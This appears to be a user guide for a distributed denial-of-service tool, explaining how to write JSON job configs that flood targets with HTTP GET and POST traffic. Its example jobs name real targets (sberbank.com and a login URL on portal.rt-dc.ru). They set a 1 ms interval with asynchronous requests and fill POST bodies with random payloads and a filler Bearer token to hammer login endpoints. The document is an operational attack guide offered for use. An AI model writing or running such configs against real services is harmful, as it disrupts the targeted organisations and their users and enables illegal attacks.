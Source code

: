 # Instructions for changing config

Config contains array of jobs, which actually are targets to attack. Each target is attacked in parallel similar to as if for example you launched few instances of alpine/bombardier.

Lets talk about each type of jobs.

*Please take into consideration that config file has json format which has its syntax rules. There are lots of extensions for formatting. Please remove comments from the config before applying it as json doesn't support comments and they are added to this guide purely for your comfort*

# HTTP JOB

Use to attack target via http/https protocols. Usually used ports 80 and 443 but can be different. 
You can add few jobs on one target, for example one for getting main page(GET), another for login(POST to special url) or etc.

**Structure of HTTP GET Job**

```json
{
    "type": "http",
    "args": {
        "method": "GET" //GET is used to get main page information so it should 100% when getting target,
        "path": "http://sberbank.com" //url to target,
        "interval_ms" : 1  // the less number is the more traffic is send
    },
    "client" : {
        "async": true // doesn't wait for response of previous request, by default false
    }
}
```

`"args.path"` can be in format `protocol://url:port`, for example `http://127.0.0.1:80`

In POST request "headers" must contains "Authorization" header with value beginning with "Bearer" word and "body" which could be random text (or you can make it generate the text for each request by specifying `"{{- random_payload 100 -}}"` where 100 is the length of the text you want it to send). If you want to be extra cool you can generate the value going after `"Bearer: "` via [jwt.io](https://jwt.io)

For experienced users: you can configure other auth methods as well by specifying required headers/body as you would do it with curl

```json
{
      "type": "http",
      "args": {
        "method": "POST" // POST is used to pass some data to API for example for login,
        "path": "https://portal.rt-dc.ru/index.php?login=yes",
        "headers": {
          "Authorization": "Bearer: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c"
        },
        "body": "lkasdng.,afgn.,asngfjklawne;la nsdfjasd;sa.gn wjae fnjaksdbgjkasndg,.asdnfm,sadnf,.mn"
      }
}
```
